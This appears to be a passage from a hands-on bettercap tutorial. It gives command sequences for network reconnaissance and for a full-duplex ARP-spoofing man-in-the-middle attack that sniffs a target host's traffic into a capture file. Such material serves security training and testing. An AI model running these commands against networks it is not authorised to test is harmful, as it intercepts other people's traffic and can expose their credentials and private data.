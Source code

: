 
## 🎪 Practical Sessions

### Session 1: Basic Network Reconnaissance
```bash
# Start bettercap on specific interface
sudo bettercap -iface eth0

# Enable discovery modules
net.probe on
net.recon on

# Wait for network discovery (30-60 seconds)
sleep 60

# View discovered hosts with details
net.show

# Export host list to file
net.show > hosts.txt

# Get detailed information about gateway
get 192.168.1.1
```

### Session 2: Man-in-the-Middle with Sniffing
```bash
sudo bettercap -iface eth0

# Phase 1: Discovery
net.probe on
net.recon on
sleep 30

# Phase 2: Identify target
net.show
# Note: Identify your target IP from the list

# Phase 3: ARP spoofing
set arp.spoof.targets 192.168.1.100
set arp.spoof.fullduplex true
arp.spoof on

# Phase 4: Packet capture
set net.sniff.local true
set net.sniff.output mitm_capture.pcap
net.sniff on

# Phase 5: Monitor events
events.stream
```
